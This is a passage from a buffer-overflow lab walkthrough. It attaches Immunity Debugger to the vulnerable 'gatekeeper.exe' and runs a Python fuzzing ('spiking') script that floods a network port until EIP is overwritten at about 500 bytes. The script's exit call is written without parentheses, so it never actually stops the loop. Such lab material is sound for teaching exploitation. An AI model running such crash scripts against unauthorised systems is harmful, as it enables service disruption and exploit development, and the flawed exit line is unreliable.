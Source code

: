 You need to install the Immunity Debugger and Mona Python Modules in order to proceed with the following in order to observer the results of our scripts and identify the memory address where the crash occurs.
Let's start the Immunity Debugger as an admin and the vulnerable program "gatekeeper.exe" and then attach the program to the Immunity Debugger:

![Start_ImmunityDebugger](start_ImmunityDebugger.png) 

Then click the start button:

![Start_Program](start_Program.png)

Let's go back to our Kali machine and run our first Python template

```Python
#!/usr/bin/python

import sys,socket
from time import sleep

buffer = "A" * 100
RHOST = "192.168.0.227"
RPORT = 31337

while True:
    try:
        s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        s.connect((RHOST,RPORT))
        s.send(buffer + '\r\n')
        s.close()
        sleep(1)
        buffer += "A" * 100
    except:
        print("Debugger crashed at %s bytes" % str(len(buffer)))
        sys.exit
```
When we look at our Windows VM, we'll see that the program crashed and we wrote EIP with 4 As (41 is the hex value of A). Once we see that EIP is overwritten, we can go back to our Kali machine and stop running our Python spiking script:

![Python_Spiking](runPythonSpiking.png)

![Python_EIP](PythonoverwroteEIP.png)

![Python_StopSpiking](stopPythonspiking.png)

We can see that the program crashed at 500 bytes. We'll use this information to find the offset in the next step.

[<= Go Back to BOF Menu](bufferoverflows.md)

[<= Go Back to Main Menu](index.md)
